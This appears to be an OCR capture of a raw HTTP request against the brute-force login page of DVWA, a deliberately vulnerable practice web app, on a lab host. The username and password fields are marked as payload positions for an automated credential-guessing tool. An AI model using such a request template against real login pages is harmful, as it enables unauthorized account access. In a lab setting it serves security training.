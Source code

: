 GET /dvwa/vulnerabilities/brute/?username=§admin§&password=§password§&Login=Login HTTP/1.1

Host: 10.0.0.87

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://10.0.0.87/dvwa/vulnerabilities/brute/

Connection: close

Cookie: security=low; PHPSESSID=efql019acl3531g7he4q74b7u0

Upgrade-Insecure-Requests: 1


